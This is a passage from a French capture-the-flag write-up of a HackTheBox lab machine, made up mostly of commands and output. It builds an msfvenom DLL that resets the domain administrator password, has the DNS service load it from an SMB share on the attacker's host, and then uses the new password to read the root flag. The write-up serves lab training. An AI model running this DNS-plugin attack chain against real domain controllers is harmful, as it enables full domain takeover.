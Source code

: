Et si j'essayais de changer le mot de passe de l'administrateur avec un autre DLL?


```sh
└─# msfvenom -p windows/x64/exec cmd='net user administrator Password1 /domain' -f dll > dn.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 308 bytes
Final size of dll file: 9216 bytes
```

Ensuite la meme methode, mais avec `cmd` cett fois

```sh
*Evil-WinRM* PS C:\Users\ryan\Desktop> cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.16\s\dn.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3064
        FLAGS              :
*Evil-WinRM* PS C:\Users\ryan\Desktop> 


```

Et voilaaa...


```sh
└─# nxc smb 10.129.234.83 -u 'administrator' -p 'Password1' -x "type C:\users\administrator\desktop\root.txt" 
SMB         10.129.234.83   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.234.83   445    RESOLUTE         [+] megabank.local\administrator:Password1 (Pwn3d!)
SMB         10.129.234.83   445    RESOLUTE         [+] Executed command via wmiexec
SMB         10.129.234.83   445    RESOLUTE         25b132f718f3601309fcf37847731331
                                                                                      
```
